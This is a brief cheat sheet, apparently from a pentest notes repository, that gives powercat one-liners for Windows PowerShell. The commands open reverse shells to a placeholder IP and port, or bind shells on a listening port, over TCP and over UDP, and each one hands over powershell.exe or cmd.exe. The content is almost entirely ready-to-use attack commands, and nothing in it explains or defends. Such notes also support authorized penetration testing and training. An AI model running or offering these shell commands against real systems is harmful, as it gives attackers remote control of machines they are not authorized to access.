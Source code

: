 # Powercat

## 01 - Reverse shell

### 1.1 - TCP Method

```
PS C:\> powercat -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

### 1.2 - UDP Method

```
PS C:\> powercat -u -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>
```

## 02 - Bind shell

### 2.1 - TCP Method

```
PS C:\> powercat -l -p <PORT> -e <powershell.exe | cmd.exe>
```

### 2.2 - UDP Method

```
PS C:\> powercat -u -l -p <PORT> -e <powershell.exe | cmd.exe>
```

---
## References

- [besimorhino: Powercat](https://github.com/besimorhino/powercat)